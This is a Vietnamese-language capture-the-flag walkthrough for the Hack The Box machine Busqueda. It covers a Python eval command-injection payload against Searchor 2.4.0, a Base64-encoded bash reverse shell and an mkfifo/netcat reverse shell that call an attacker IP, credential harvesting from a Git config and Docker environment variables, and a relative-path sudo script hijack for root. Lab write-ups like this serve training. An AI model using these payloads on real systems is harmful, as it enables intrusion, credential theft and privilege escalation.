





# Busqueda

## Synopsis

Busqueda là một machine Linux easy liên quan đến việc khai thác lỗ hổng command injection có trong mô-đun `Python`. Bằng cách tận dụng lỗ hổng này, có được quyền truy cập user-level vào machine. Để nâng cao đặc quyền lên `root`, khám phá thông tin xác thực trong file config `Git`, cho phép đăng nhập vào dịch vụ `Gitea` cục bộ. Ngoài ra, phát hiện ra rằng một script kiểm tra hệ thống có thể được thực thi với đặc quyền `root` bởi một user cụ thể. Bằng cách sử dụng script này, liệt kê các container `Docker` tiết lộ thông tin xác thực cho tài khoản `Gitea` của user `administrator`. Phân tích sâu hơn về source code của script kiểm tra hệ thống trong kho lưu trữ `Git` cho thấy một phương tiện để khai thác tham chiếu đường dẫn tương đối, cấp Remote Code Execution (RCE) với đặc quyền `root`.

### Skill required

- Web Enum

- Cơ bản về Linux

- Cơ bản về Python

### Skill learned

- Command Injection

- Phân tích source code

- Cơ bản về Docker

## Enumeration

### Nmap

Chạy scan `Nmap` để phát hiện bất kỳ port mở nào trên remote host.

```
ports=$(nmap -p- --min-rate=1000 -T4 10.10.11.208 | grep '^[0-9]' | cut -d '/' -f 
1 | tr '\n' ',' | sed s/,$//)

nmap -p$ports -sV 10.10.11.208
```


Scan `Nmap` cho thấy `SSH` đang lắng nghe trên port mặc định, tức là port `22` và máy chủ web `Apache` HTTP đang chạy trên port `80`.

### HTTP

Khi duyệt đến port `80`, được chuyển hướng đến domain `searcher.htb`.



Thêm mục `searcher.htb` vào file `/etc/hosts` với địa chỉ IP tương ứng để phân giải tên miền và cho phép truy cập vào đó trong trình duyệt.

```
echo "10.10.11.208  searcher.htb" | sudo tee -a /etc/hosts
```

Khi truy cập `searcher.htb` trong trình duyệt, được chào đón bằng trang chủ của ứng dụng "Searcher". Có vẻ như đây là một trình tổng hợp công cụ tìm kiếm cho phép người dùng tìm kiếm thông tin trên nhiều công cụ tìm kiếm khác nhau.


Người dùng có thể chọn công cụ tìm kiếm, nhập truy vấn và được chuyển hướng tự động hoặc nhận URL của kết quả tìm kiếm.


Sau khi nhấn nút "Search", trang web sẽ cung cấp URL cho công cụ tìm kiếm đã chỉ định và truy vấn đã nhập.


## Foothold

Điều đáng chú ý là phần footer trang web cho biết trang web đang sử dụng `Flask` và `Searchor` phiên bản `2.4.0`.

```
Searchor là gì?
Searchor là một thư viện Python toàn diện giúp đơn giản hóa quy trình thu thập dữ liệu web, truy xuất thông tin về bất kỳ chủ đề nào và tạo URL truy vấn tìm kiếm.
```

Nếu theo hyperlink trên "Searchor 2.4.0" ở footer trang web, sẽ được chuyển hướng đến kho lưu trữ GitHub của nó, nơi có thể kiểm tra changelog cho các phiên bản đã release khác nhau. Có đề cập đến một lỗ hổng ưu tiên đang được vá trong phiên bản `2.4.2`. Phiên bản mà trang web đang sử dụng là `2.4.0`, điều đó có nghĩa là nó có khả năng dễ bị tấn công.


Khi xem bản vá, có thể thấy rằng pull request liên quan đến việc vá lỗ hổng chèn lệnh hiện diện trong chức năng tìm kiếm do sử dụng câu lệnh `eval` trên dữ liệu đầu vào chưa được kiểm tra của người dùng.


Có thể xem commit cụ thể, hiển thị câu lệnh `eval` đã được thay thế trong file `main.py`.


Tuy nhiên, vì hiện tại không có Proof of Concept (POC) nào khả dụng, phải tự xác định cách tận dụng lỗ hổng này. Do đó, hãy tải xuống mô-đun `Searchor 2.4.0` trên máy local và phân tích code của nó.

```
wget https://github.com/ArjunSharda/Searchor/archive/refs/tags/v2.4.0.zip

unzip v2.4.0.zip
```

Có thể kiểm tra file `main.py` để thấy rằng tương tự như commit, dữ liệu đầu vào của người dùng được truyền trực tiếp đến câu lệnh `eval` mà không cần bất kỳ quá trình sanitization nào.

```
nano Searchor-2.4.0/src/searchor/main.py
```


Hàm `search()` chấp nhận bốn tham số và có thể kiểm soát hai trong số đó: `engine` và `query`.

```
searchor search Google "hackthebox"
```


Trong CLI tool, các tham số `engine` và `query` tương ứng với các đối số thứ hai và thứ ba. Về command injection, có vẻ như có thể inject cả hai tham số vì chúng được truyền trực tiếp đến câu lệnh `eval`. Tuy nhiên, trong ứng dụng, nếu cố gắng sửa đổi engine thành tùy chọn không có trong danh sách engine được xác định trước, sẽ gặp lỗi.

Do đó, phải tập trung vào việc sử dụng tham số `query` làm điểm inject. Cần lưu ý rằng các câu lệnh `eval` thường không hỗ trợ thực thi nhiều dòng, mặc dù có các kỹ thuật để đạt được điều này. Ngoài ra, điều quan trọng là phải đảm bảo rằng payload không làm gián đoạn phần trước của câu lệnh `eval`. Xem xét tất cả các cân nhắc này, có thể sử dụng payload như sau để khai thác lỗ hổng này và thực hiện command injection.

```
') + str(__import__('os').system('id')) #
```

Để đảm bảo thực hiện phần còn lại của câu lệnh `eval`, phải sử dụng toán tử `+` để nối đầu ra của một dòng khác một cách riêng biệt. Điều quan trọng cần lưu ý là ký hiệu `#` ở cuối có chức năng như một comment, bỏ qua bất kỳ nội dung nào theo sau nó.

```
Toàn bộ lệnh sau đó sẽ như sau:

url = eval(Engine.<some_engine>.search('') + str(__import__('os').system('id')) #', copy_url= {copy}, open_web={open})")
```

Trước tiên, kiểm tra payload local và xác minh xem việc chèn mã có hoạt động như mong đợi hay không.

```
searchor search Google "')+ str(__import__('os').system('id'))#"
```


Output của command `id` được trả về thành công, cho biết lệnh inject đã thành công.

Để xác thực việc thực thi code trên remote host, tiến hành gửi payload trong tham số `query` của ứng dụng web.

```
')+ str(__import__('os').system('id'))#
```


Thực thi code với tư cách là user `svc`.


Để tận dụng điều này lấy một interactive shell, trước tiên khởi động listener `Netcat` trên máy local ở port `1337`.

```
nc -lvnp 1337
```

Sau đó, gửi payload reverse shell được mã hóa Base64 sau đây trong tham số `query` của trang web `Searcher`.

```
')+ str(__import__('os').system('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4zNS8xMzM3IDA+JjE=|base64 -d|bash'))#
```

```
Có thể sử dụng một trang web như revshells () để tạo ra một dữ liệu được mã hóa phù hợp với địa chỉ IP.
```

Có được một reverse shell trên listener `Netcat`.


Có thể lấy flag user tại `/home/svc/user.txt`.

## Privilege Escalation

Bằng cách enum các file trên remote host, có thể xác định cặp thông tin xác thực `cody:jh1usoih2bkjaspwe92` được lưu trữ trong file `/var/www/app/.git/config`. Nó cũng chứa tham chiếu đến tên subdomain `gitea.searcher.htb`.

```
cat /var/www/app/.git/config
```


Có thể thử đăng nhập qua `SSH` với tư cách user `svc` với mật khẩu đã lấy được là `jh1usoih2bkjaspwe92`.

```
ssh svc@10.10.11.208
```



Quay trở lại domain `gitea.searcher.htb`, thêm một mục vào file `/etc/hosts`.

```
echo "10.10.11.208   gitea.seacher.htb" | sudo tee -a /etc/hosts
```

Khi truy cập `gitea.searcher.htb` trên trình duyệt, thấy trang chủ của `Gitea`.

```
Gitea là gì?

Gitea là dịch vụ Git self-host, nhẹ, mã nguồn mở, cung cấp giao diện web để quản lý kho lưu trữ Git. Đây là máy chủ kiểm soát phiên bản tương tự như các nền tảng phổ biến như GitHub hoặc GitLab nhưng được thiết kế để nhẹ, dễ cài đặt và tiêu thụ ít tài nguyên hệ thống hơn.
```


Trong phần "Explore", có thể thấy có 2 người dùng trên ứng dụng Gitea, cụ thể là `cody` và `administrator`.



Có thể đăng nhập với tư cách là user `cody` với thông tin đăng nhập đã lấy được trước đó, chỉ để tìm một kho lưu trữ riêng có tên `Searcher_site` chứa mã nguồn của ứng dụng web Searcher.



Vì không có mật khẩu cho user administrator nên không thể kiểm tra các private repository được liên kết với user đó. Tuy nhiên, nên nhớ xem lại điều này nếu sau này có được mật khẩu.

Tiếp tục, có thể kiểm tra quyền `sudo` cho user `svc` để phát hiện ra rằng có thể chạy lệnh `/usr/bin/python3 /opt/scripts/system-checkup.py *` với tư cách là `root`.

```
sudo -l
```


Khi cố gắng đọc file `/opt/scripts/system-checkup.py`, nhận được lỗi `permission denied` do user `svc` không đủ quyền. User svc chỉ sở hữu quyền thực thi cho file nhưng không có quyền đọc.

```
ls -l /opt/scripts/system-checkup.py
```



Khi thực thi script `Python`, một help menu các đối số có thể sử dụng sẽ được hiển thị.

```
sudo /usr/bin/python3 /opt/scripts/system-checkup.py *
```


Khi xem xét các đối số được cung cấp, script `/opt/scripts/system-checkup.py` dường như cho phép xem xét các container `Docker` hiện có.

Sử dụng đối số `docker-ps`, nó sẽ liệt kê tất cả các container đang chạy.

```
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps
```


Nó tương tự như kết quả output của lệnh `docker ps` trong tiện ích `Docker`.

Khi thực thi script với đối số `docker-inspect`, thông tin usage cho biết nó yêu cầu hai đối số cụ thể: `format` và `container name`.

```
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect
```


Mặc dù biết tên container, nhưng không biết tham số format này đang tham chiếu đến cái gì. Tuy nhiên, xét đến sự tương đồng giữa output của script sử dụng đối số `docker-ps` và lệnh `docker ps`, có thể cho rằng đối số `docker-inspect` trong script sử dụng lệnh `docker inspect` của tiện ích `Docker`. Vì vậy, xem help menu của lệnh `docker inspect`.

Có thể xem thông tin sử dụng lệnh `docker inspect` tại https://docs.docker.com/engine/reference/commandline/inspect/.


Theo thông tin được cung cấp ở https://docs.docker.com/config/formatting/, `Docker` tận dụng các template `Go` cho phép user sửa đổi định dạng output của các lệnh cụ thể. Trang web đề cập cụ thể đến việc sử dụng template format `{{json .}}`, template này hiển thị tất cả thông tin về container theo format JSON. Do đó, có thể sử dụng `{{json .}}` làm đối số `format` theo yêu cầu của đối số `docker-inspect` của script.

Để đọc output JSON một cách thuận tiện, có thể sử dụng `jq` để phân tích cú pháp output JSON thành format có thể đọc được. `jq` có thể được cài đặt bằng lệnh sau, tuy nhiên, nó đã có sẵn trên target machine.

```
sudo apt-get -y install jq
```

Bây giờ chạy script với các tham số thích hợp cho đối số `docker-inspect`.

```
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' gitea | jq
```

Có thể kiểm tra output để phát hiện mật khẩu `Gitea` được hardcode trong phần `Env`, bao gồm các biến môi trường.

```
[** SNIP **]
 "Tty": false,
    "OpenStdin": false,                                                                 
                                 
    "StdinOnce": false,                                                                 
                                 
    "Env": [                                                                           
                       
      "USER_UID=115",
      "USER_GID=121",
      "GITEA__database__DB_TYPE=mysql",
      "GITEA__database__HOST=db:3306",
      "GITEA__database__NAME=gitea",
      "GITEA__database__USER=gitea",
      "GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh",
      "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
      "USER=git",
      "GITEA_CUSTOM=/data/gitea"
    ],
    "Cmd": [
      "/bin/s6-svscan",
      "/etc/s6"
    ],
 [** SNIP **]
```

Sử dụng mật khẩu đã lấy được là `yuiu1hoiu4i5ho1uh`, có thể đăng nhập vào ứng dụng `Gitea` với tư cách là user `administrator`.

Bây giờ có thể enum các private repository đã đề cập ở trên để tìm repository `scripts`, chứa các file đã thấy trong thư mục `/opt/scripts` của remote host.


Kiểm tra file `system-checkup.py` vì có khả năng thực thi file `/opt/scripts/system-checkup.py` với quyền root trên remote host. Trong quá trình phân tích code, phát hiện ra rằng đối số `full-checkup`, chưa kiểm tra, thực thi một script bash có tên là `full-checkup.sh`.


Điều đáng chú ý là script `system-checkup.py` tham chiếu đến script `full-checkup.sh` bằng đường dẫn tương đối, `./full-checkup.sh`, thay vì đường dẫn tuyệt đối như `/opt/scripts/full-checkup.sh`, trong file `system-checkup.py`. Điều này cho thấy script `system-checkup.py` cố gắng thực thi `full-checkup.sh` từ directory nơi `system-checkup.py` được thực thi.

```
cd /opt/scripts/
 
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```


Bây giờ cố gắng tận dụng tham chiếu tương đối đến `full-checkup.sh` bằng cách thực thi script `system-checkup` từ một directory khác có chứa script `full-checkup.sh` độc hại.

Vì vậy, tạo một file `/tmp/full-checkup.sh` và chèn payload reverse shell vào đó.

```
echo -en "#! /bin/bash\nrm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <YOUR_IP> 9001 >/tmp/f" > /tmp/full-checkup.sh
```

Sau đó cấp quyền thực hiện cho nó.

```
chmod +x /tmp/full-checkup.sh
```

Tiếp theo, khởi động listener `Netcat` trên port `9001` trên máy local để nhận reverse shell.

```
nc -nvlp 9001
```

Cuối cùng, chạy lệnh sau trên remote host trong directory `/tmp` để kích hoạt reverse shell.

```
cd /tmp

sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

Khi chạy lệnh trên trên remote host, nhận được một shell với tư cách là user `root` trên port `9001`.


Có thể lấy root flag tại `/root/root.txt`.

```
cat /root/root.txt
```